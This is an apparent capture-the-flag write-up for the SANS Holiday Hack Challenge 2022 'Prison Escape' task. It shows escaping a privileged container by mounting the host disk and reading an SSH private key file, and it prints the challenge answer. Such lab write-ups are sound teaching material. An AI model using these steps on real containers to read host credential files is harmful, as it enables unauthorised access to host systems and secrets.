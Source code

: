 # SANS Holiday Hack Challenge 2022 - KringleCon V: Golden Rings
## Recover the Elfen Ring
### Prison Escape
Difficulty: :christmas_tree::christmas_tree::christmas_tree:  
Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex
string appears in the host file `/home/jailer/.ssh/jail.key.priv`?

#### Hints
##### Mount Up and Ride
*From: Bow Ninecandle*  
Were you able to mount up? If so, users' `home/` directories can be a great place to look for secrets...
##### Over-Permissioned
*From: Bow Ninecandle*  
When users are over-privileged, they can often act as root. When containers have too many [permissions](https://learn.snyk.io/lessons/container-runs-in-privileged-mode/kubernetes/), they can affect the host!

#### Solution
Literally, the first thing I did was try `sudo`, and it worked. I then spent some time poking around the container eventually noticing the `/dev/vda` disk:
```bash
grinchum-land:~# fdisk -l
Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
2048 cylinders, 64 heads, 32 sectors/track
Units: sectors of 1 * 512 = 512 bytes
Disk /dev/vda doesn't contain a valid partition table
```
Considering the hint about `mount`, I just tried to mount `/dev/vda`, exposing a linux root file structure:
```bash
grinchum-land:~# mount /dev/vda /mnt
grinchum-land:~# mount | grep vda
/dev/vda on /mnt type ext4 (rw,relatime)
grinchum-land:~# ls /mnt
bin boot dev etc home lib lib32 lib64
root run sbin srv sys tmp usr var
libx32
lost+found
media
mnt
opt
proc
```
At that point it was pretty straightforward to find and read the flag file:
```bash
grinchum-land:~$ cat /mnt/home/jailer/.ssh/jail.key.priv | tail -n 11 | head -n 1 | cut -d "
" -f 11
082bb339ec19de4935867
```
The solution is the string `082bb339ec19de4935867` in the above output.  
![root](imgs/root.png)  
[https://imgur.com/sQOrznY](https://imgur.com/sQOrznY)

---
## Recover the Elfen Ring
### Clone with a Difference
### Prison Escape
### Jolly CI/CD
### The Elfen Ring
## Recover the Web Ring
### Naughty IP
### Credential Mining
### 404 FTW
### IMDS, XXE, and Other Abbreviations
### Open Boria Mine Door
### Glamtariel's Fountain
### The Web Ring
## Recover the Cloud Ring
### AWS CLI Intro
### Trufflehog Search
### Exploitation via AWS CLI
## Recover the Burning Ring of Fire
### Buy a Hat
### Blockchain Divination
### Exploit a Smart Contract
### Mistakes were made... the key
### The Burning Ring of Fire
## [Narrative](/README.md#narrative)
## [Conclusions](/README.md#conclusions)
### [The Victors shop](/README.md#the-victors-shop)
### [Inbox (1)](/README.md#inbox-1)
---
## [thedead@dellian:~$ whoami](/README.md#thedeaddellian-whoami)
## KringleCon Orientation
## Recover the Tolkien Ring